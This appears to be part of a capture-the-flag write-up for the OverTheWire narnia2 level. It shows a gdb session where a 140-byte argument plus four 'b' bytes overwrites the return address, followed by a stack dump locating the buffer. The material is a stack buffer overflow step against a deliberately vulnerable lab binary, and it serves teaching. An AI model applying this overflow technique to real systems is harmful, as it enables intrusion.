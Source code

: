 {% highlight console %}
(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) x/200x $esp
(gdb) x/200x $esp
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea
0xffffd660:	0x00000002	0xffffd6e4	0xffffd684	0x08049768
0xffffd670:	0x0804821c	0xf7fca000	0x00000000	0x00000000
0xffffd680:	0x00000000	0xed18585e	0xd520bc4e	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000002	0x08048360
0xffffd6a0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd6b0:	0x00000002	0x08048360	0x00000000	0x08048381
0xffffd6c0:	0x0804845d	0x00000002	0xffffd6e4	0x080484d0
0xffffd6d0:	0x08048540	0xf7feb180	0xffffd6dc	0x0000001c
0xffffd6e0:	0x00000002	0xffffd812	0xffffd828	0x00000000
0xffffd6f0:	0xffffd8b9	0xffffd8cd	0xffffd8dd	0xffffd8f0
0xffffd700:	0xffffd913	0xffffd927	0xffffd930	0xffffd93d
0xffffd710:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
0xffffd720:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
0xffffd730:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
0xffffd740:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
0xffffd750:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
0xffffd760:	0x00000010	0x1f898b75	0x00000006	0x00001000
0xffffd770:	0x00000011	0x00000064	0x00000003	0x08048034
0xffffd780:	0x00000004	0x00000020	0x00000005	0x00000008
0xffffd790:	0x00000007	0xf7fdc000	0x00000008	0x00000000
0xffffd7a0:	0x00000009	0x08048360	0x0000000b	0x000036b2
0xffffd7b0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
0xffffd7c0:	0x0000000e	0x000036b2	0x00000017	0x00000000
0xffffd7d0:	0x00000019	0xffffd7fb	0x0000001f	0xffffdfe2
0xffffd7e0:	0x0000000f	0xffffd80b	0x00000000	0x00000000
0xffffd7f0:	0x00000000	0x00000000	0xe8000000	0x7c03ba19
0xffffd800:	0x2bd0895a	0x3866226d	0x69ad5957	0x00363836
0xffffd810:	0x672f0000	0x73656d61	0x72616e2f	0x2f61696e
0xffffd820:	0x6e72616e	0x00326169	0x61616161	0x61616161
0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd8b0:	0x61616161	0x62626262	0x47445800	0x5345535f
0xffffd8c0:	0x4e4f4953	0x3d44495f	0x30333035	0x45485300
0xffffd8d0:	0x2f3d4c4c	0x2f6e6962	0x68736162	0x52455400
0xffffd8e0:	0x78723d4d	0x322d7476	0x6f633635	0x00726f6c
0xffffd8f0:	0x5f485353	0x45494c43	0x323d544e	0x322e3231
0xffffd900:	0x37352e33	0x3136312e	0x35333320	0x34203932
0xffffd910:	0x53003334	0x545f4853	0x2f3d5954	0x2f766564
0xffffd920:	0x2f737470	0x4c003033	0x4c415f43	0x00433d4c
0xffffd930:	0x52455355	0x72616e3d	0x3261696e	0x5f534c00
0xffffd940:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
0xffffd950:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
0xffffd960:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a
{% endhighlight %}
